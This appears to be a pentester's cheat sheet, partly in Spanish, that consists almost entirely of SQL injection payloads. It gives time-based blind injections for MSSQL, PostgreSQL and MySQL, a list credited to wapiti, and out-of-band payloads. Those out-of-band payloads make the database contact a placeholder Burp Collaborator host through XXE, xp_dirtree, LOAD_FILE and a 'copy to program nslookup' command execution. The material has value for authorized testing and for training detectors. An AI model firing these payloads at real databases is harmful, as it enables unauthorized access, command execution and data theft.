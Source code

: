 ```
LIMIT (SELECT IF (1=1) WAITFOR DELAY '0:0:20')--+-
'SELECT CASE WHEN (1=1) THEN pg_sleep(20) ELSE pg_sleep(0) END--+-
';SELECT CASE WHEN (1=1) THEN pg_sleep(20) ELSE pg_sleep(0) END--+-
'UNION SELECT CASE WHEN (1=1) THEN pg_sleep(20) ELSE pg_sleep(0) END--+-
LIMIT (SELECT CASE WHEN (1=1) THEN pg_sleep(20) ELSE pg_sleep(0) END)--+-
'SELECT IF(1=1,SLEEP(20),'a')--+-
'UNION+SELECT IF(1=1,SLEEP(20),'a')--+-
';SELECT IF(1=1,SLEEP(20),'a')--+-
LIMIT (SELECT IF(1=1,SLEEP(20),'a'))--+-
```

Try collaborator:

```
' SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--+-
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--+-
' SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')--+-
' UNION SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')--+-

' exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'--+-
' UNION exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'--+-
' UNION SELECT exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'--+-
' SELECT exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'--+-
' copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'--+-
' UNION SELECT copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'--+-
' SELECT copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'--+-
'LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')--+-
' SELECT LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')--+-
' UNION SELECT LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')--+-
```

tests si se te va la flapa: [https://github.com/payloadbox/sql-injection-payload-list/tree/master/Intruder/detect](https://github.com/payloadbox/sql-injection-payload-list/tree/master/Intruder/detect)

```
# from wapiti
sleep(5)#
1 or sleep(5)#
" or sleep(5)#
' or sleep(5)#
" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
'));waitfor delay '0:0:5'--
"));waitfor delay '0:0:5'--
benchmark(10000000,MD5(1))#
1 or benchmark(10000000,MD5(1))#
" or benchmark(10000000,MD5(1))#
' or benchmark(10000000,MD5(1))#
1) or benchmark(10000000,MD5(1))#
```